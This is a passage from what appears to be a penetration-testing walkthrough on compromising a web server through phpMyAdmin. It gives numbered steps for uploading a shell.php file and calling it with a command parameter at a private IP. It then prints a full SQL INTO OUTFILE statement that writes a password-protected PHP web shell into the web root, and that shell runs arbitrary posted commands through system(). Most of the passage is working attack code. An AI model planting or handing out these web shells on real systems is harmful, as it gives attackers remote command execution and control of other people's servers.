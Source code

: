    
   20. In phpMyAdmin, navigate to the "Import" tab
   21. Browse and select your `shell.php` file
   22. Set the character set to "utf-8"
   23. Click "Go" to upload the file
   24. The file should now be accessible at:

```bash
http://192.168.74.162/shell.php?cmd=id
```

   **Method 4: Creating a More Advanced Web Shell**

   For a more feature-rich web shell, you can use the SQL command to write a more advanced PHP script:

```sql
SELECT '<?php

// PHP Advanced Web Shell

$password = "pentester"; // Change this password

if (!isset($_POST["password"]) || $_POST["password"] != $password) {

   echo "<form method=\"post\"><input type=\"password\" name=\"password\"><input type=\"submit\" value=\"Login\"></form>";

   exit;

}

echo "<style>body{background-color:#000;color:#00FF00;font-family:monospace;}</style>";

echo "<h1>PHP Web Shell</h1>";

echo "<form method=\"post\">";

echo "<input type=\"hidden\" name=\"password\" value=\"".$password."\">";

echo "Command: <input type=\"text\" name=\"cmd\" style=\"width:400px;\">";

echo "<input type=\"submit\" value=\"Execute\">";

echo "</form>";

if(isset($_POST["cmd"])) {

   echo "<pre>";

   system($_POST["cmd"]);

   echo "</pre>";

}

?>' INTO OUTFILE '/var/www/html/admin.php';

```
